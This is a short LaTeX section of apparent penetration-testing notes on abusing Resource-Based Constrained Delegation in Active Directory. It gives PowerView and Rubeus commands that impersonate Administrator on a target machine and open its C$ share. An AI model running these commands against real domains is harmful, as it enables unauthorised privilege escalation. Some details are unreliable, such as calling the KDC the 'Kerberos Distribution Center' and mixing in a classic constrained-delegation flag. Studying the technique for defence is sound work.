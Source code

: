\section{1. Resource-Based Constrained Delegation (RBCD)}

\subsection{Attacker View}
RBCD allows a computer object in AD to impersonate users to a specific service. By setting the \texttt{msds-allowedtoactonbehalfofotheridentity} attribute on a target machine, an attacker can use their controlled machine account to request service tickets from the Kerberos Distribution Center (KDC) on behalf of privileged users.

\begin{lstlisting}
# Set msds-allowedtoactonbehalfofotheridentity on target
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# Get RC4 hash of controlled machine account password
Rubeus.exe hash /password:'p@ssword!'

# Impersonate Administrator
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4Hash> `
/impersonateuser:Administrator /msdsspn:cifs/TargetMachine.domain `
/domain:domain /ptt

# Access administrative share
dir \\TargetMachine.domain\C$
\end{lstlisting}

Without having the password or hash of the \texttt{TRUSTED\_TO\_AUTH\_FOR\_DELEGATION} account:
\begin{lstlisting}
# Request a valid TGT for the account using Kerberos
Rubeus.exe tgtdeleg /nowrap
\end{lstlisting}

\textbf{Impact:} Full impersonation of privileged accounts (e.g., Domain Admin) to specific services without needing the password.

